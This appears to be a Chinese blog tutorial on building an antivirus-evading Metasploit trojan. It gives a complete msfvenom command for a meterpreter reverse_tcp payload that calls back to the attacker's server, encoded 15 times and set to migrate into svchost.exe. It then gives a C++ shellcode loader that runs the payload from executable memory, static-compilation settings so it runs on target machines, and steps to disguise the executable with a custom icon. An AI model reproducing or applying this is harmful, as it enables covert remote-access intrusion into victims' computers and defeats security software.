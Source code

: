 **目录**

[MSF木马的免杀](#t0)

[C/C++加载免杀](#t1)

[加图标](#t2)

* * *

MSF木马的免杀
--------

MSF下输入下列命令，生成[免杀](https://so.csdn.net/so/search?q=%E5%85%8D%E6%9D%80&spm=1001.2101.3001.7020)shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=x.x.x.x LPORT=8888 -e x86/shikata_ga_nai -i 15 -b '\x00\' PrependMigrate=true PrependMigrateProc=svchost.exe -f c > shellcode.c
```


这里的 payload 选择 windows/meterpreter/reverse\_tcp，LHOST和LPORT分别填VPS的地址和MSF监听的端口，-e x86/shikata\_ga\_nai -i 15 是用 x86/shikata\_ga\_nai 编码 15 次(建议编码12次以上)，而 PrependMigrate=true  PrependMigrateProc=svchost.exe 使这个程序默认会迁移到 svchost.exe 进程。

![](https://img-blog.csdnimg.cn/20200525145925850.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

会生成 shellcode.c 文件，打开该文件如图所示：

![](https://img-blog.csdnimg.cn/20191216155618214.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### C/C++加载免杀

然后在VS中新建一个C++项目，我这里在VS2012中新建一个c++的win32项目，然后将下面的代码复制进去，再将shellcode.c里面的那些复制到shellcode的位置。

```
#include<stdio.h>      
#include<windows.h>       
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")      
unsigned char shellcode[]= 这里填shellcode;      
void main(){      
     LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);      
     memcpy(Memory, shellcode, sizeof(shellcode));      
    ((void(*)())Memory)();      1
}
```


如下，点击生成解决方案，之后会生成一个exe程序

![](https://img-blog.csdnimg.cn/20191216164644822.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

生成的exe程序即是免杀之后的[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)程序。还可以进行其他伪装，比如修改图标，修改程序名等。

![](https://img-blog.csdnimg.cn/20191216164803636.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果直接把该程序拿到win7或server2008之类的虚拟机去执行，可能会提示缺少dll文件。这是因为我们在编译程序的过程中是使用的动态编译，如果目标机器不存在相关的dll文件就会报此错误。

![](https://img-blog.csdnimg.cn/20200525150315195.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

解决办法就是我们在编译程序的时候，选择静态编译的方法。静态编译就是在编译可执行文件的时候，将可执行文件需要调用的对应动态链接库(.dll)中的部分提取出来，链接到可执行文件中去，使可执行文件在运行的时候不依赖动态链接库。但是这样使用静态编译的方法可能会导致编译出来的程序会偏大。

静态编译，需要如下配置：

*   右键项目 -> 属性 -> 配置属性 -> 高级 -> MFC的使用：在静态库中使用MFC
*   右键项目 -> 属性 -> C/C++ -> 代码生成 -> 运行库：选择 多线程（/MT）
*   编译时选择Debug  x86

![](https://img-blog.csdnimg.cn/20200526123945611.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)![](https://img-blog.csdnimg.cn/20200526124036246.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200526125151947.png)

然后重新 生成——>重新生成解决方案 进行编译。然后在目标机器运行，我们就可以收到弹回的session了。

![](https://img-blog.csdnimg.cn/20200525222806260.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 加图标

如果想对木马加图标的话，右键项目——>添加——>资源

![](https://img-blog.csdnimg.cn/20200526004435329.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后选择icon

![](https://img-blog.csdnimg.cn/20200526004137189.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这样就会在程序目录下生成一个icon1.ico文件，我们用自己的ico图标将该文件替换。

![](https://img-blog.csdnimg.cn/20200526004240420.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200526004351752.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

重新编译，生成的exe程序就是我们指定的图标了。

![](https://img-blog.csdnimg.cn/20200526004510219.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

注：貌似现在这种免杀方法也会被查杀了